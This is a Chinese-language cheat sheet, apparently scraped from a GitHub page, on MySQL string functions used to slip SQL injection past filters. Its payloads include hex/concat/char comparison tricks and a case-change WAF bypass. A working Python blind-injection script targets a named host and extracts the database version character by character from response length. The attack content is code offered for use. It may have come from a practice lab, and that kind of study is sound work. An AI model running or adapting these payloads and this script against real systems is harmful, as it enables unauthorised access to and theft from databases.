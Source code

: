 ###### mysql常见过滤函数

* 字符串截取函数

```txt
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)
以上全部被过滤时，使用concat：
payload:
hex(user()<concat(char(67)))
```

```python
附带脚本：
#-*- coding:utf-8 -*-
import requests
import sys
url="http://sqlitest.anquanbao.com.cn/api/query?art_id=hex(version()<CONCAT(%s))"
pre=""
i=0
result=""
while i<128:
    #print url
    r=requests.get(url%(pre+'char('+str(i)+")"))
    print r.url
    if len(r.text)>203:
        if i!=33:
            pre=pre+'char('+str(i-1)+'),'
            result+=chr(i-1)
            print result
            i=0
        else:
            break
    i=i+1
```

* 字符串连接函数

```txt
concat(version(),'|',user());
concat_ws('|',1,2,3)
```

* 字符转换

```txt
Ascii(1)    #此函数之前测试某云waf的时候被过滤了，然后使用ascii(1)即可，函数名大小写绕过
Char(49)    #范围0-255内可利用？
Hex('A')
Unhex(61)
```
